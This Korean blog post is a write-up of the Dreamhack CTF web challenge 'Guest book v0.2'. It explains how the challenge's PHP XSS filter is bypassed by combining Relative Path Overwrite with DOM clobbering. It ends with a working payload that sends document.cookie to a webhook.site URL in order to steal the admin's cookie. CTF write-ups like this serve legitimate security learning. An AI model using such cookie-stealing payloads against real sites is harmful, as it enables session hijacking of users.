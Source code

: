 ```yaml
---
layout: single
title: "[Dreamhack] Guest book v0.2 write-up"
date: 2024-12-11 21:50 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] Guest book v0.2

<br>

### 문제 설명

- php로 개발 중인 방명록 서비스입니다.
- 글을 쓰는 기능과, 오류가 발생하는 주소를 관리자가 확인할 수 있도록 하는 Report기능이 존재합니다.
- 플래그는 관리자의 쿠키에 포함되어 있습니다.
  - 0.1 버전에서 발견된 취약점을 방어하는 코드가 추가되었습니다.

<br>

### 풀이

<br>

문제로 접속하면 아래 0.2로 xss가 보호되고 있다고 나온다.

![{A84268A5-52BA-4DF7-B4BE-9A0D874C5A09}](/images/2024-12-11-Guest-book-v02/{A84268A5-52BA-4DF7-B4BE-9A0D874C5A09}.png)

<br>

문제 소스 코드를 보면 위는 똑같고 아래 `PreventXSS` 함수를 정의해서 html을 로드 후 모든 태그를 가져온 다음 `ALLOOW_TAGS_ATTRS`에 있는 태그인지 검사하고 속성도 맞는지 검사하고 있다.

```php
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  PreventXSS($content);
  return $content;
}

$ALLOW_TAGS_ATTRS = array(
  "html"=>['id', 'name'],
  "body"=>['id', 'name'],
  "a"=>['id','href','name'],
  "p"=>['id', 'name'],
);

function PreventXSS($input){
  global $ALLOW_TAGS_ATTRS;

  $htmldoc = new DOMDocument();
  $htmldoc->loadHTML($input);

  $tags = $htmldoc->getElementsByTagName("*");
    
  foreach ($tags as $tag) {
    if( !$ALLOW_TAGS_ATTRS[strtolower($tag->nodeName)] ) DisallowAction();
    $allow_attrs = $ALLOW_TAGS_ATTRS[strtolower($tag->nodeName)];
    foreach($tag->attributes as $attr){
        if( !in_array(strtolower($attr->nodeName), $allow_attrs) ) DisallowAction();
    }
  }
}

function DisallowAction(){
	die("no hack");
}

?>
```

<br>

전 문제에서 썼던 페이로드를 GuestBook.php에서 적으면 역시나 no hack이 나온다.

![{2824A1BA-F27F-4416-8C0F-54B3E7201C95}](/images/2024-12-11-Guest-book-v02/{2824A1BA-F27F-4416-8C0F-54B3E7201C95}.png)

<br>

일단 DOM Cloberring으로 문제를 해결하기 위해 살펴보면 전 문제랑 동일하게 일단 script 태그로 config.js를 불러오고, 그 아래에는 window.CONFIIG와 window.CONFIG.debug가 true이면 window.CONNFIG.main으로 리다이렉션 시켜주는 코드가 존재한다. 하지만 Object.freeze로 객체를 일단 동결시키고 있기 때문에 생각을 좀 해봐야 한다.

```javascript
window.CONFIG = {
  version: "v0.2",
  main: "/",
  debug: false,
  debugMSG: ""
}

// prevent overwrite
Object.freeze(window.CONFIG);
```

![{250858A2-4C33-4DA2-B8B1-B00DAD8D571E}](/images/2024-12-11-Guest-book-v02/{250858A2-4C33-4DA2-B8B1-B00DAD8D571E}.png)

<br>

엄청 많은 삽질 끝에 dreamhack 강의를 정독하고 있다가 RPO(Relative Path Overwrite)로 config.js 가 로드되는 것을 우회할 수 있다는 것을 알게되었다. 코드를 살펴보면 해당 경로가 상대 경로로 지정되어 있기 때문에 원래 같은 경로의 config.js 를 불러오지만 url 끝에 /를 더 붙여주면,   하위 경로의 config.js를 불러오기 때문에 이를 우회할 수 있다.

<br>

마지막에 /를 붙여주니 config.js가 로드되지 않는 걸 볼 수 있다.

![{53B44696-65AD-44BF-9A72-4EA75AB89A24}](/images/2024-12-11-Guest-book-v02/{53B44696-65AD-44BF-9A72-4EA75AB89A24}.png)

<br>

다음으로는 a 태그를 이용해서 config.js가 로드되지 않기 때문에 window.CONFIG와 window.CONFIG.debug, winow.CONFIG.main을 설정해주어야 한다. 여기서 그냥 멍청하게 하나의 a태그 안에서 전부 다 해결하려고 삽질을 많이 했는데 알고보니 `[]()` 형식으로 두 번 작성하니 a 태그가 2개씩 작성되는 걸 알 수 있었다.

<img src="/images/2024-12-11-Guest-book-v02/{1D288596-26CD-45ED-94CB-E274A491830C}.png" alt="{1D288596-26CD-45ED-94CB-E274A491830C}" style="zoom:60%;" />

![{D0BE97B9-9949-426E-9F48-57BE1550DAC9}](/images/2024-12-11-Guest-book-v02/{D0BE97B9-9949-426E-9F48-57BE1550DAC9}.png)

<br>

그럼 이제 다 끝났다. 우선 익스플로잇 방법은 HTML Collections를 이용해야 하고, 가장 처음 CONFIG id를 정해준 다음 debug를 true로 변경하고, 마지막 location.href가 되는 window.CONFIG.main 값을 전 문제에 작성했던 자바스크립트 스키마를 이용해서 document.cookie를 웹훅 서버로 전달해주게끔 하면 된다.

```text
[dom](#' id='CONFIG')
[dom2](javascript:true' id='CONFIG' name='debug')
[dom3](javascript:location=`https://webhook.site/ec668eca-43dc-4c8c-919e-bd50bde0d0f9?cookie=`+document.cookie' id='CONFIG' name='main')
```

<br>

따라서 report 페이지에서 작성할 때 config.js가 로드되지 않아야 하기 때문에 `GuestBook.php/?content=` 이렇게 작성하고 위 페이로드를 url 인코딩 해준 후 붙여넣어주면 된다.

<br>

![{6A15C361-0C93-4518-B136-2EC3DF7E06DB}](/images/2024-12-11-Guest-book-v02/{6A15C361-0C93-4518-B136-2EC3DF7E06DB}.png)
